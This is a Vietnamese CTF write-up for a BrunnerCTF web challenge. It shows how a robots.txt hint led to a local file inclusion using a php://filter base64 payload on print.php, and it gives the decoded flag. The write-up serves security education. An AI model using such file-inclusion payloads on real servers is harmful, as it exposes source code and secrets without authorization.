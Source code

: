 ![alt text](/assets/img/posts/BrunnerCTF/image-18.png)

Ngoài ra trong đoạn script trên có đoạn comment **`Open the print URL in a new window (Note to self: Remember to add print.php to robots.txt!)`** có thể là gợi cho chúng ta. đọc thử file `robots.txt` ta nhận được kết quả trả về như sau:
**`User-agent: * Allow: /index.php Allow: /bakery-calendar.php Disallow: /print.php Disallow: /secrets.php`**

Thử truy cập `https://brunsviger-huset-269cf517a0f4cf2b.challs.brunnerne.xyz/print.php?file=secrets.php`{: .filepath} thì không nhận được gì cả
![alt text](/assets/img/posts/BrunnerCTF/image-20.png)
Vì file trên là file `php` nên mình nhớ đến việc dùng **`php wrapper`**

Truy cập `https://brunsviger-huset-269cf517a0f4cf2b.challs.brunnerne.xyz/print.php?file=php://filter/convert.base64-encode/resource=secrets.php`{: .filepath} thì nhận được kết quả là một chuỗi mã hóa `base64`:

> PD9waHAKLy8gS2VlcCB0aGlzIGZpbGUgc2VjcmV0LCBpdCBjb250YWlucyBzZW5zaXRpdmUgaW5mb3JtYXRpb24uCiRmbGFnID0gImJydW5uZXJ7bDBjNGxfZjFsM18xbmNsdXMxMG5fMW5fdGgzX2I0azNyeX0iOwo/Pgo=

Đem giải mã đoạn code trên thì nhận được kết quả:

```php
<?php
// Keep this file secret, it contains sensitive information.
$flag = "brunner{l0c4l_f1l3_1nclus10n_1n_th3_b4k3ry}";
?>
```
{: .nolineno }

> **`Flag: brunner{l0c4l_f1l3_1nclus10n_1n_th3_b4k3ry}`**
{: .prompt-tip }
